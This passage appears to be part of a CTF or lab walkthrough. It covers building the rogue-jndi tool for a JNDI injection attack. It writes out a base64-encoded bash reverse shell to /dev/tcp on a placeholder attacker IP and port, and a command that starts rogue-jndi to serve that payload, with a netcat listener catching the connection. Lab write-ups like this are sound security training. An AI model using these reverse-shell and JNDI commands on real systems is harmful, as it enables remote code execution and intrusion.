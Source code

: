 The `rogue-jndi` is a Java application. In the `official walkthrough`. It says we need to install `Open-JDK` & `Maven` on our system to build the payload. 
However, if you're using the Linux hacking distribution such as `parrot os` & `kali`. You might have already installed it in those systems but if you don't. Type this to install it make sure to run it with sudo privilege.

```bash
sudo apt update # update the package 
sudo apt install openjdk-11-jdk -y # install open-jdk
sudo apt install maven # install maven
```

After all, is done, let's build the `Rogue-JNDI` Java application.

```bash
cd rogue-jndi && mvn package
```

![build success](build-success.png "build success")

## create a reverse shell payload

This will create a `.jar` file in `rogue-jndi/target/` directory called `RogueJndi-1.1.jar`. Before we can run the application. We need to create our reverse shell payload first and encode it with base64 to prevent any encoding issues.

```bash
➜ echo 'bash -c bash -i >& /dev/tcp/Tun0 IP/Port 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwL1R1bjAgSVAvUG9ydCAwPiYxCg==
```

## rogue-jndi arguments

After the payload had been created, start the `Rogue-JNDI` application with these arguments. `Example down below`;
Make sure to run the Netcat listener on your desire/reverse_shell port to catch the connection back.

```bash
➜  java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING}|{base64,-d}|{bash,-i}" --hostname "Tun0 IP Address"
```

![serve Rogue JNDI server](rogue-jndi-argv.png "serve Rogue JNDI server")
